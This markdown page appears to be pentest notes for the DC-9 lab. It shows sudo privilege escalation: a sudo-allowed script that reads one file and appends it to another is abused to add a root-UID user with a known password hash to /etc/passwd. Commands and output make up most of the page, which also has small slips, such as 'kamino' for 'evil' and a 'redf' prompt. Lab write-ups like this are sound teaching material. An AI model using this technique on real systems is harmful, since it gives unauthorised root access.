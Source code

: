 ```yaml
---
layout: default
title: /etc/passwd
parent: Sudo
nav_order: 4
---
```


# /etc/passwd

---

## Replace /etc/passwd via Sudo

```bash
fredf@dc-9:~$ sudo -l
Matching Defaults entries for fredf on dc-9:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fredf may run the following commands on dc-9:
    (root) NOPASSWD: /opt/devstuff/dist/test/test

```

We can run /opt/devstuff/dist/test/test with sudo privileges.

If we try to execute /opt/devstuff/dist/test/test it shows the usage.

```bash
fredf@dc-9:/opt/devstuff/dist/test$ ./test
Usage: python test.py read append

```

We can find the _test.py_ file in _/opt/devstuff/_

```bash
fredf@dc-9:/opt/devstuff/dist/test$ find / -name test.py 2>/dev/null
/opt/devstuff/test.py

```

Reviewing _test.py_ it shows that it reads a file and appends to that file.

```bash
fredf@dc-9:/opt/devstuff$ cat test.py
#!/usr/bin/python

import sys

if len (sys.argv) != 3 :
    print ("Usage: python test.py read append")
    sys.exit (1)

else :
    f = open(sys.argv[1], "r")
    output = (f.read())

    f = open(sys.argv[2], "a")
    f.write(output)
    f.close()

```

We will exploit this by appending a new user to _/etc/passwd_

First we create the file that will be read in by _test.py_ in /var/tmp

The following will add a root user with the password _i<3hacking_

```bash
fredf@dc-9:/var/tmp$ echo 'evil:$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.:0:0:evil:/home/evil:/bin/bash' > /var/tmp/evil


fredf@dc-9:/var/tmp$ cat evil
evil:$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.:0:0:evil:/home/evil:/bin/bash

```

Now we can execute the _/opt/devstuff/dist/test/test_ and read in the _/var/tmp/kamino_ and append to the file _/etc/passwd_

```bash
redf@dc-9:/var/tmp$ sudo /opt/devstuff/dist/test/test /var/tmp/evil /etc/passwd

redf@dc-9:/var/tmp$ cat /etc/passwd

# we see our newly created root user "evil" at the bottom of /etc/passwd
scoots:x:1015:1015:Scooter McScoots:/home/scoots:/bin/bash
janitor:x:1016:1016:Donald Trump:/home/janitor:/bin/bash
janitor2:x:1017:1017:Scott Morrison:/home/janitor2:/bin/bash
evil:$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.:0:0:evil:/home/evil:/bin/bash

```

Our exploit was successful and now we can switch to the _kamino_ user and have root privileges.

```bash
fredf@dc-9:/var/tmp$ su evil
Password:
root@dc-9:/var/tmp# id
uid=0(root) gid=0(root) groups=0(root)

```
